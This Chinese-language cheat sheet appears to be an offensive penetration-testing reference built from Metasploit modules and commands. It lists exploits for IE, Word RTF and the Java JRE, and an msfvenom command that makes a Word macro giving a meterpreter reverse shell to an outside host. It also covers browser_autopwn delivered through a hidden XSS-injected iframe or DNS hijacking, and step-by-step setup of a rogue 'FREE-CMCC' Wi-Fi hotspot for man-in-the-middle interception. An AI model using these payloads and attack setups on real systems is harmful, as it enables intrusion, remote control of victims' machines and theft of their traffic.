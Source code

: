 **IE漏洞**

```swift
exploit/windows/browser/ms_14_064_ole_code_execution
```

**Word漏洞**

```swift
exploit/windows/filefoemat/ms10_087_rtf_pfragments_bof
```

**JRE漏洞**

```swift
exploit/multi/browser/java_jre17_driver_manager
exploit/multi/browser/java_jre17 _jmxbean
exploit/multi/browser/java_jre17_reflection_types
```

**Word宏Payload**

```swift
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f vba-exe
//part 1 为宏代码
//part 2 为word正文
```

```swift
exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
```

**浏览器Autopwn**

```swift
auxiliary/server/browser_autopwn
```

两种利用方法：

+ xss手段注入代码，<iframe src = "" width=0 height=0 style="hidden" frameboarder=0 marginheight=0 marginwidth=0 scrolling=no></iframe>
+ DNS劫持

**伪造热点中间人攻击**

```swift
airmon-ng start wlan0
airbase-ng -P -C 30 -e "FREE-CMCC" -v wlan0mon
ifconfig at0 up 10.0.0.1 netmask 255.255.255.0      //激活at0
touch /var/lib/dhcp/dhcpd.leases        //建立Dhcp租约
dhcpd -cf /etc/dhcp/dhcpd.conf at0      //启动Dhcp服务器
msfconsole  -q -r karma.rc_.txt

//使客户端联网，开启ip转发
iptables -P FORWARD ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

***
